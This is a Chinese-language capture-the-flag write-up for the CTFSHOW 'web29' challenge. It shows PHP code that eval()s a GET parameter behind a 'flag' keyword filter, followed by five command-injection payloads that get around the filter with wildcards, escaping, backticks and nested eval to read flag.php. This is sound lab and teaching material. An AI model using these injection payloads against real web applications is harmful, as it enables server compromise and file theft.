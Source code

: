# CTFSHOW php命令执行

**目录**

[TOC]





## web29  过滤flag

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

这里能发现是匹配flag  但是存在高亮 高亮有需要路径

同时存在eval  命令执行

所以我们传入命令

但是过滤了flag

我们看看怎么绕过

```perl
?c=system("ls ./");
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7544f129fbc7967589504a20e4b328d4.png" alt="" style="max-height:155px; box-sizing:content-box;" />


发现了 flag

我们绕过正则匹配flag字符串

```cobol
payload1: ?c=system("cat f*");    f*匹配 f开头的文件
payload2: ?c=system("cat fl\ag.php");
payload3: ?c=system("cat fla?????");   一定要5个 因为 ? 匹配一个任意字符 
payload4: ?c=echo `cat fl""ag.php`;    `` 内联
payload5: ?c=eval($_GET['1']);&1=system('cat flag.php');
```





<img src="https://i-blog.csdnimg.cn/blog_migrate/c636b7fa9b41aed149a4df09d7d637e2.png" alt="" style="max-height:169px; box-sizing:content-box;" />
